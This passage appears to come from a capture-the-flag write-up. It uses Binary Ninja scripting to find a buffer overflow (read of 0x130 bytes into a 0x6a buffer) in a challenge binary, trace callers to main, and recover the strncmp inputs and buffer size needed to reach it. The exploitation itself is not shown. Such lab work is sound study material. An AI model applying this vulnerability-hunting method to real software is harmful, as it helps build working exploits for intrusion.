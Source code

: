 ```python
        if read_size > memset_size:
            print("BOF FUNC FOUND")
            vuln = i
            break
    except Exception as e:
        pass

```

```c
int32_t sub_804897b{()

{
    char const* const var_10 = "WHAT is your quest?";
    void var_7a;
    memset(&var_7a, 0, 0x6a);
    read(0, &var_7a, 0x130);
    return strncmp(data_804b04c, &var_7a, strlen(data_804b04c));
}
```

With the address of the vuln function we just need to find a function that calls it. Luckily Binary Ninja has a callee function so we can just climb those until we hit main.

```python 
func_list = []
while vuln.callers:
    func_list.append(vuln)
    vuln = vuln.callers[0]
```

Now that we have a path to a vuln function we just need to pass or fail the strncmp's to get a buffer overflow. The parameter to the strncmp is a pointer to a pointer so using read we can get the string in the binary. The code for this part is really ugly so be sure to check out the other writeups. We can also grab the buffer size by checking the stack size
```python 
func_list = func_list[::-1][1:]

inputs = []
for i in range(len(func_list) -1):
    if list(func_list[i].high_level_il.instructions)[7].operands[1].tokens[0].value == func_list[i+1].address_ranges[0].start:
        print("TAKE RIGHT, PASS")

        pointer = bv.read(list(func_list[i].high_level_il.instructions)[5].operands[0].operands[0].operands[1][0].operands[0].value.value , 4)
        addr = struct.unpack("<l",pointer )[0]
        val= b''
        while b'\x00' not in val:
            val+= bv.read(addr+ len(val),1)
        inputs.append(val)

    elif list(func_list[i].high_level_il.instructions)[6].operands[1].tokens[0].value == func_list[i+1].address_ranges[0].start:
        print("TAKE LEFT, FAIL")
        inputs.append(b"ex")
    else:
        print("BROKE")

bof_size = abs(list(og_vuln.high_level_il.instructions)[1].var.storage)
```
